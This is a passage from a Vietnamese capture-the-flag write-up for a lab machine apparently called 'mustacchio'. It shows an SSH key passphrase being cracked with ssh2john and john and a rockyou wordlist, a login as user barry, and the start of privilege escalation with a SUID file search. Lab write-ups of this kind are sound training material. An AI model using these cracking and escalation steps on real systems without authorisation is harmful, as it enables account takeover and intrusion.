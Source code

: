 ## SSH

Sao chép ssh key về và login ssh với key này. Tuy nhiên khi login tôi cần passphrase. Sử dụng *john* để brute-force passphrase

```python
┌──(neo㉿kali)-[~]
└─$ ssh2john id_rsa > hash                                                                   
             
┌──(neo㉿kali)-[~]
└─$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
```

Login vào SSH với port 22 

```python
┌──(neo㉿kali)-[~]
└─$ ssh -i id_rsa barry@10.10.82.130
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ id
uid=1003(barry) gid=1003(barry) groups=1003(barry)
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ 
```

## Privilege escalation

Tôi thử tìm SUID

`find / -type f -perm -u=s 2>/dev/null`
